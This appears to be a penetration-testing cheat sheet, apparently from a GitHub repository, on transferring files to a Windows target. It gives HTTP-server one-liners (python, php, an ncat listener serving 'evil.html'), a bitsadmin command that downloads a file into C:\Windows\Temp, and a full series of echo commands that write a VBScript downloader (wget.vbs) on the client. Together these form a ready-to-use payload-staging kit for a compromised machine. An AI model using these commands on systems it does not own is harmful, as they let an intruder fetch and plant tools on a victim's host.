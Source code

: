 
## HTTP server methods

- python
	- `python3 -m http.server <port>`
	- `python -m SimpleHTTPServer <port>`
- php
	- `php -S <ip>:<port>`
- ncat
	- `ncat --keep-open -l -p <port> -c "printf 'HTTP/1.1 200 OK\r\n\r\n'; cat ~/evil.html"`


# Methods


## Bitsadmin

- **Server** setup - any HTTP server method
- **Client** commands in `cmd.exe`
```
bitsadmin /transfer n http://<ip_to_upload>/file.txt C:\Windows\Temp\file.txt
```

-------------------------------

## vbs (Visual Basic Script)

- **Server setup** in `bash`
	- via python
	```bash
	python -m SimpleHTTPServer 8090
	```
- **Client** commands in cmd.exe (change `<ip_address>`,`<file_name>`) to create **download** script
	```cmd
	echo strUrl = WScript.Arguments.Item(0) > wget.vbs
	echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
	echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
	echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
	echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
	echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
	echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
	echo Err.Clear >> wget.vbs
	echo Set http = Nothing >> wget.vbs
	echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
	echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
	echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
	echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
	echo http.Open "GET", strURL, False >> wget.vbs
	echo http.Send >> wget.vbs
	echo varByteArray = http.ResponseBody >> wget.vbs
	echo Set http = Nothing >> wget.vbs
	echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
	echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
	echo strData = "" >> wget.vbs
	echo strBuffer = "" >> wget.vbs
	echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
	echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
	echo Next >> wget.vbs
	echo ts.Close >> wget.vbs
	```
	- correct file size
		- 990 wget.vbs